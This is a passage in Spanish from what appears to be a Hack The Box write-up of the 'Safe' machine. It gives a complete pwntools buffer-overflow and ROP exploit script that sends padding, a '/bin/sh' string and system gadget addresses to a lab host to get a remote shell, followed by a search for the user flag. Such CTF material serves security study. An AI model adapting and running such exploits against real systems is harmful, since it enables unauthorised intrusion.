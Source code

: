 Ya lo que nos quedaría, sería ejecutar nuestro script, no de manera local, pero remota, para lo cual debemos introducir la dirección IP de la máquina víctima, e indicar el puerto a través del cual nos queremos conectar.

```python
p = remote("10.10.10.147", 1337)
```

Así mismo, es necesario especificar que queremos interactuar con la consola que estamos consiguiendo, para lo cual deberemos indicar lo siguiente:

```python
p.interactive()
```

Nuestro script, debería verse algo así:

```python
#!/usr/bin/python3

from pwn import *

context.terminal = ['gnome-terminal', '-x']
context.arch = 'amd64'
context.os = 'linux'

# p = gdb.debug('/ubicación/del/binario/myapp', 'b *0x40116e')
# p.recvuntil("What do you want me to echo back?")

p = remote("10.10.10.147", 1337)

popR13 = p64(0x401206)
system = p64(0x40116e)
test = p64(0x401152)
 
junk = ("A"*112).encode()
  
binSh = "/bin/sh\x00".encode()
  
nullByte = p64(0x0)
  
p.sendline(junk + binSh + popR13 + system + nullByte + nullByte + test)
  
p.interactive()
```

Al ejecutar nuestro script, lo que vamos a conseguir es una consola, por lo que una vez dentro del sistema, podríamos listar la flag del usuario con bajos privilegios.

```
find / -name user.txt 2> /dev/null
```
![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-12-27-Safe-Hack-The-Box/28.png)
